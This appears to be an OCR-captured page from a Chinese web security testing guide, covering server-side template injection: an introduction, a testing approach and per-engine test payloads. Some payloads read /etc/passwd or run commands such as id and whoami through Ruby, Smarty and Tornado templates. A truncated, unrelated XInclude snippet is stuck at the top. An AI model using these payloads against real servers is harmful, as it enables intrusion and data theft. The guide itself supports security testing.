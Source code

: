 <?xml version='1.0'?> 
<data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:incl



---

**3.10 模板注入漏洞**

3.10. 模版注入

3.10.1. 简介

模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

---
3.10.2. 测试方法

- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击


---
3.10.3. 测试用例

- 简单的数学表达式，{{ 7+7 }} => 14
- 字符串表达式 {{ "ajin" }} => ajin
- Ruby

<%= 7 * 7 %>

<%= File.open('/etc/passwd').read %>

- Java

${7*7}

- Twig

{{7*7}}


- Smarty

{php}echo `id`;{/php}

- AngularJS

$eval('1+1')

- Tornado

引用模块 {% import module %}

=> {% import os %}{{ os.popen("whoami").read() }}

- Flask/Jinja2
- 
{{ config.items() }}
